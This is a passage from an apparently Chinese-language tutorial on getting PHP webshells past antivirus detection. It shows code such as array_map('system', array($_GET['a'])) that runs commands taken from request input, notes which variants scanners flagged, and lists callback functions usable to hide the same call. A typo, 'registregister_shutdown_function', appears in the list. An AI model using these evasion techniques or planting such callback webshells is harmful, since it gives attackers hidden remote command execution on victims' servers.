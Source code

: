 ```php
$num1=$_POST['num1'];
$num2=$_POST['num2'];
print_r($_POST);
```

当你在 HTTP 数据包 Body 传参时：

```php
num1=1&num2=2
```

得到回显：

```php
Array
(
    [num1] => 1
    [num2] => 2
)
```

## 1# 回调类型函数

### 1.0 Tips

在 PHP 的 WebSehll 免杀测试过程中，使用回调函数可以发现查杀引擎对函数和函数的参数是否有对应的敏感性

```php
array_map('system', array('whoami'));        //被查杀
array_map($_GET['a'], array('whoami'));      //被查杀
array_map('var_dump', array('whoami'));      //未被查杀
array_map('system', array($_GET['a']));      //被查杀
```

这里在列举一些回调函数，感兴趣可以自行查找：

```php
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk_recursive()
call_user_func_array()
call_user_func()
filter_var() 
filter_var_array() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array()
uasort() 
uksort() 
```

### 1.1 array\_map()
